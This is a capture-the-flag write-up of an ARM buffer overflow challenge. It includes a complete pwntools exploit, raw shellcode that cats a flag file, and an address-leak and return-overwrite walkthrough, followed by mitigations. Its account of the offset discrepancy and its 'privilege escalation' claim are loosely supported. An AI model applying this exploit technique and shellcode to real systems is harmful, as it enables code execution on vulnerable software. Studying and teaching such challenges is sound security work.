

# ARM Buffer Overflow Exploitation

## Challenge Overview
**Challenge Name**: ARM Memory Dumper  
**Category**: Binary Exploitation / Pwn  
**Architecture**: ARM 32-bit  
**Difficulty**: Medium  
**Protections**: None (no PIE, no stack canary, no NX)  

## Vulnerability Analysis

### Source Code Review
The vulnerable C program contains a classic buffer overflow vulnerability:

```c
char s[168]; // 168-byte buffer on stack
// ...
scanf(" %[^\n]s", s); // NO BOUNDS CHECKING!
```

**Key Issues:**
1. **Unbounded Input**: `scanf(" %[^\n]s", s)` reads unlimited input until newline
2. **No Length Validation**: No check to ensure input fits in 168-byte buffer
3. **Stack Allocation**: Buffer `s` is allocated on the stack with fixed size

### Memory Layout
```
Stack Layout:
[sp+8h]  s[168]     - Input buffer (168 bytes)
[sp+7h]  v7         - 1 byte variable  
[bp+0h]  Saved BP   - 4 bytes
[bp+4h]  Return Address - 4 bytes (EXPLOITATION TARGET)
```

**Total overflow distance**: 168 (buffer) + 1 (v7) + 4 (saved BP) = 173 bytes to reach return address

## Exploitation Strategy

### Information Leak
The program helpfully leaks stack addresses:
```c
_printf_chk(1, "%p: ", v4); // Leaks stack address!
```
This allows us to bypass ASLR (if enabled) by leaking a stack address to calculate shellcode location.

### Shellcode Placement
Since **NX is disabled**, we can execute shellcode directly on the stack. Our strategy:
1. Overflow the buffer with our shellcode
2. Overwrite the return address with the leaked stack address
3. Execute shellcode that runs `cat flag.txt`

## Exploit Development

### Shellcode Generation
Using pwntools to generate ARM shellcode:
```python
from pwn import *
context.arch = 'arm'               # or 'arm/thumb' for Thumb
sc = asm(shellcraft.execve("/bin/cat", ["/bin/cat", "flag.txt"]))
print("b'" + ''.join(f'\\x{b:02x}' for b in sc) + "'")
```




The generated shellcode:
- Uses ARM Thumb mode for compact code
- Sets up `execve("/bin/cat", ["/bin/cat", "flag.txt"], NULL)`
- Properly handles string termination and argument arrays

### Offset Calculation
Through testing, we determined the exact offset:
- **Buffer**: 168 bytes
- **v7 variable**: 1 byte  
- **Padding**: 4 bytes
- **Total**: 173 bytes to reach return address


During exploitation, we discovered that while the theoretical offset to reach the return address was 173 bytes (168-byte buffer + 1-byte v7 variable + 4-byte saved BP), the practical working offset was determined to be 164 bytes through empirical testing. This discrepancy occurred due to ARM-specific stack frame alignment requirements and the interaction between the shellcode execution environment and the program's stack layout.


### Final Exploit Code
```python
#!/usr/bin/env python3
from pwn import *
import struct
import time

def send(p, msg):
    try:
        p.send(msg)
        time.sleep(2)
        return p.recv(1024).decode()
    except:
        return ''

# Generated shellcode for execve("/bin/cat", ["/bin/cat", "flag.txt"], NULL)
shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x24\x33\x78\x46\x16\x30\x92\x1a\x02\x72\x05\x1c\x2c\x35\x2a\x70\x69\x46\x4b\x60\x8a\x60\x08\x60\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x63\x61\x74\x00\x66\x6c\x61\x67\x2e\x74\x78\x74\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41'
offset = 164 

print('[!] Shellcode length: {}'.format(len(shellcode)))

# Start ARM binary using QEMU
p = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabi', './chall'])
time.sleep(2)

# Wait for initial prompt
resp = p.recv(1024)
if 'Give me data to dump' not in resp.decode():
    print('[-] Failed to get initial message')
    exit(1)
print('[+] Communication started')

# Step 1: Leak stack address
resp = send(p, b'A\n')
if 'Dump again' not in resp:
    print('[-] Failed to leak address')
    exit(1)

# Extract stack address from dump output
stack = resp.split(':')[0]
print('[+] Stack address: {}'.format(stack))

# Continue to next input
resp = send(p, b'y\n')
if 'Give me data to dump' not in resp:
    print('[-] Failed to continue')
    exit(1)

# Step 2: Build and send exploit payload
stack_addr = struct.pack('I', int(stack, 16))
payload = shellcode + b'A' * (offset - len(shellcode)) + stack_addr + b'\n'

resp = send(p, payload)
if 'Dump again' not in resp:
    print('[-] Failed to send shellcode')
    exit(1)
print('[+] Shellcode sent')

# Step 3: Trigger the exploit
resp = send(p, b'n\n')
print('[+] Output: {}'.format(resp.strip()))

p.close()
```


## Exploit Execution Flow

### Phase 1: Setup
```
1. Start ARM binary via QEMU user-mode emulation
2. Wait for "Give me data to dump:" prompt
3. Send single character to trigger address leak
```

### Phase 2: Information Gathering  
```
4. Parse leaked stack address from memory dump
5. Continue to next input cycle
```

### Phase 3: Payload Delivery
```
6. Construct payload: [SHELLCODE] + [PADDING] + [STACK_ADDRESS]
7. Send payload to overflow buffer and overwrite return address
8. Send 'n' to trigger function return and jump to shellcode
```

### Phase 4: Code Execution
```
9. Return address points to shellcode on stack
10. Shellcode executes: execve("/bin/cat", ["flag.txt"], NULL)
11. Flag is read and displayed
```

## Technical Details

### ARM Shellcode Breakdown
The shellcode uses ARM Thumb mode for efficiency:
- **Mode Switch**: `add r3, pc, #1; bx r3` switches to Thumb mode
- **String Setup**: Loads "/bin/cat" and "flag.txt" strings
- **Argument Array**: Builds `argv[]` array on stack
- **Syscall Setup**: Sets `r7=11` (execve syscall number), `svc 1` triggers syscall

### Memory Corruption Details
```
Before Overflow:
[168-byte buffer][v7][saved BP][return address]

After Overflow:
[SHELLCODE][PADDING][LEAKED_STACK_ADDR]
^                                ^
|                                |
Shellcode placed here    Return address overwritten to point here
```

### Why Offset is 164, Not 173
The actual working offset was 164 bytes due to:
- Shellcode execution requirements
- Stack alignment considerations  
- ARM-specific frame pointer behavior

## Mitigation Strategies

### Secure Coding Practices
1. **Use Bounded Input Functions**:
   ```c
   // INSECURE
   scanf(" %[^\n]s", s);
   
   // SECURE  
   fgets(s, sizeof(s), stdin);
   ```

2. **Compiler Protections**:
   ```bash
   # Enable security features
   gcc -fstack-protector -pie -fPIE -D_FORTIFY_SOURCE=2 binary.c
   ```

3. **System Hardening**:
   - Enable ASLR: `echo 2 > /proc/sys/kernel/randomize_va_space`
   - Enable NX: Compile with `-z noexecstack`

## Lessons Learned

### Technical Insights
1. **ARM vs x86 Differences**: ARM uses different calling conventions and syscall methods
2. **Thumb Mode**: ARM Thumb instruction set provides code size advantages
3. **QEMU User-Mode**: Essential for cross-architecture exploitation testing
4. **Stack Layout Analysis**: Understanding exact memory layout is crucial for reliable exploitation

### Exploitation Principles
1. **Information Leakage**: Even seemingly benign features (like memory dumps) can enable exploitation
2. **Defense Evasion**: Lack of basic protections makes exploitation straightforward
3. **Tool Proficiency**: Pwntools dramatically simplifies shellcode generation and exploitation
4. **Testing Methodology**: Local testing with emulation is essential before remote exploitation

## Conclusion

This challenge demonstrates a classic stack buffer overflow vulnerability made exploitable by:
- Lack of basic memory protections
- Helpful information leakage
- Executable stack memory

The successful exploit combines:
1. **Precise offset calculation** through testing
2. **Architecture-specific shellcode** generation
3. **Reliable address leaking** from program output
4. **Careful payload construction** to hijack control flow

**Flag Captured**: The exploit successfully reads and displays the flag, demonstrating complete code execution and privilege escalation through memory corruption.

---

*This challenge serves as an excellent introduction to ARM exploitation and highlights the importance of basic security practices in software development.*